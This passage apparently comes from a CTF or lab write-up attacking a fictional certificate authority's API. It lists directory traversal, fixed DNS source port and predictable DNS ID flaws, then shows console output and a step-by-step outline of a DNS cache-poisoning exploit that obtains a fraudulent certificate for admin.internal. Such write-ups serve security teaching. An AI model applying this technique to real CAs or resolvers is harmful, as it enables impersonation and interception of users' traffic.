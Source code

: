 This function calls `rand.Intn` in a loop over a 32 byte slice, so we need to drain 32 integers from the exploit host's PRNG before attempting to forge a response to the CA.

## Attack
### Developing a chained exploit path

We have identified three vulnerabilities in the DigiShue Certificate Authority API:


V-CA-01: Local file inclusion via directory traversal in /static path parameter

V-CA-02: DNS challenge uses a constant UDP source port

V-CA-03: Deterministic PRNG and constant seed for generating DNS message ID in DNS challenge

We combined V-CA-02 and V-CA-03 in an exploit to fraudulently obtain a certificate for any domain; in this case `admin.internal`.

```bash
pwn:~$ sudo ./exploit -d admin.internal
2022/11/08 05:39:50 Preparing DNS poisoner
2022/11/08 05:39:50 Creating pwn0 interface with 10.64.10.2
2022/11/08 05:39:50 Fetching validation token
2022/11/08 05:39:50 Draining RNG entropy pool
2022/11/08 05:39:50 Serialized DNS response for TXT [1f7b169c846f218ab552fa82fbf86758] id 11807
2022/11/08 05:39:50 Sending DNS responses to 10.64.10.3:50000
2022/11/08 05:39:50 Waiting for DNS cache poisoning
2022/11/08 05:39:51 Validating token with CA
2022/11/08 05:39:57 Wrote admin.internal-crt.pem and admin.internal-key.pem
2022/11/08 05:39:57 Stopped DNS poisoner
```

The exploit program takes less than 10 seconds to run and is entirely automated. The program works as follows:

1. Request validation token from CA
2. Drain entropy pool and predict next DNS message ID
3. Serialize and create a DNS packet with predicted message ID
4. Flood DNS packet to poison the CA's DNS cache
5. Request certificate validation and retrieve issued certificate
6. Write cert and key to disk for later use

We can validate that the certificate is signed by the CA:

```
pwn:~$ openssl verify -CAfile DigiShue_CA.pem admin.internal-crt.pem
admin.internal-crt.pem: OK
```

At this point we now have fraudulently obtained a valid certificate and corresponding private key for `admin.internal`.

### Compromise key server network and extract cookie encryption key

We now turn our focus to the host `keyserver.internal`, discovered by DNS subdomain enumeration during reconnaissance.
